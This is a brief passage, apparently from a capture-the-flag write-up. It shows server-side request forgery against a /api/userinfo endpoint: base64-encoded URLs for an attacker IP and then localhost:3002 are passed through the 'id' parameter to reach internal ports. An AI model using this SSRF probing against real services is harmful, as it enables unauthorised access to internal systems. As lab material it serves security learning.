

____

```bash
curl http://$IP:3000/api/userinfo
```

```json
{
  "success": false,
  "error": "'id' parameter is not given."
}
```

```bash
echo "http://10.10.15.65" | tr -d '\n' | base64
```

```bash
curl "http://$IP:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE1LjY1"
```



## Identify local port

```bash
echo "http://localhost:3002" | tr -d '\n' | base64
```

```bash
curl "http://$IP:3000/api/userinfo?id=aHR0cDovL2xvY2FsaG9zdDozMDAy"
```
